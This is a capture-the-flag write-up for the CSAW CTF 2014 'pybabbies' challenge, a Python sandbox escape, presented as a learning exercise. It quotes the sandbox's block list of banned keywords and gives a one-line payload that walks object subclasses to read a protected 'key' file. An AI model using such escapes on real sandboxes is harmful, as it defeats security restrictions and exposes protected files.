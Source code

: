 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely\_not\_intro\_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw2014-pybabbies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://www.incertia.net/blog/csaw-ctf-quals-2014-pybabies/>
